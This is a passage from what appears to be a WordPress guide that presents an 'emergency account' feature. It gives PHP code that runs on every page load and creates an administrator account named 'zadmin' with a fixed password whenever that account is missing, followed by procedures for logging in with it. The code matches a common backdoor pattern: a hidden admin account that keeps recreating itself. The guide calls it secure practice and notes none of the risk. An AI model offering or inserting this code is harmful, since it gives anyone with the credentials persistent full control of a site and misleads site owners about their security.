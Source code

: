 **Automatic Account Management:**
```php
// Creates account if it doesn't exist, maintains if it does
function wpb_admin_account(){
    $user = 'zadmin';  // Emergency username
    $pass = '[configured password]';  // Secure password
    $email = '[emergency email]';  // Emergency contact email
    
    // Only create if account doesn't already exist
    if ( !username_exists( $user ) && !email_exists( $email ) ) {
        $user_id = wp_create_user( $user, $pass, $email );
        $user = new WP_User( $user_id );
        $user->set_role( 'administrator' );
    }
}
add_action('init','wpb_admin_account');
```

## Emergency Access Procedures

**For Website Managers - When to Use Emergency Account:**

1. **Assessment Phase:**
   - Try all normal administrator accounts first
   - Confirm the issue isn't temporary (browser, internet connection)
   - Verify this is truly an emergency requiring immediate access

2. **Emergency Login Process:**
   - Navigate to your WordPress login page (yoursite.com/wp-admin)
   - Use the emergency account credentials
   - Login will provide full administrator dashboard access

3. **Immediate Actions:**
   - Assess the scope of the problem (security breach, account lockout, etc.)
   - Document what you find for future reference
   - Take screenshots of any error messages or unusual conditions

4. **Problem Resolution:**
   - **For Locked Accounts**: Reset passwords for normal admin accounts
   - **For Security Issues**: Review recent user activity and site changes
   - **For Permission Problems**: Restore correct user roles and capabilities
   - **For Plugin Conflicts**: Deactivate problematic plugins temporarily

5. **System Restoration:**
   - Test that normal administrator accounts are working again
   - Verify all user roles and permissions are functioning correctly
   - Ensure all website features are operating normally

6. **Post-Emergency Documentation:**
   - Record what caused the emergency and how it was resolved
   - Update emergency procedures based on lessons learned
   - Change emergency account password for security

## Integration with Your User Management System
